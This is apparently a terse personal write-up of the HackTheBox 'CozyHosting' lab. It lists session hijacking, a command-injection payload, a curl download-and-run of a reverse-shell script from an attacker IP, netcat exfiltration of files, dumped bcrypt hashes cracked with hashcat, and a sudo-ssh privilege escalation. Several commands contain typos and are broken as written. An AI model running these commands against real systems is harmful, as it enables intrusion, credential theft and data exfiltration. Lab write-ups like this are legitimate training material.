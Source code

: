 # CozyHosting

**cozyhosting - htb**

_<mark style="color:green;">**session hijacking**</mark>_

`sessionid : BD3A77A4C619FE9B42DB59C040DCDA99`

_<mark style="color:green;">**Brupsuite**</mark>_

White Space injection for reserve shell

`IFS=_;command='id';$command`

`curl http://10.10.14.225/shell.sh --output /tmp/shell.sh`\
`chmod 777 /tmp/shell.sh`\
`/tmp/shell/sh`

&#x20;

_<mark style="color:purple;">Learned tips:</mark>_

&#x20;

`egrep -ir 'password' .`

`cat output.txt | nc yourip port`

`nc -nlvp port > output.txt`

_foreground:_

`stty raw -echo; fg`

_<mark style="color:purple;">**--------spawn interactive shell-----------**</mark>_

`<LL=bash; export TERM=xterm; stty rows 24 columns 80`

Postgres Hash:

name    |                           password                           | role \
\-----------+--------------------------------------------------------------+-------\
&#x20;kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User\
&#x20;admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

HaShcat:

`hashcat -help | grep -I '$2'`

`hashcat -m ././hash.txt /././rockyou.txt --potfile-disable`

&#x20;

&#x20;

_<mark style="color:green;">**Less prev:**</mark>_

&#x20;

`Sudo -l`

&#x20;

&#x20;

_Seems we have ssh executable prev._

&#x20;

`Gtfobin - sudo - ssh - prev excu`

&#x20;

Done :smile:
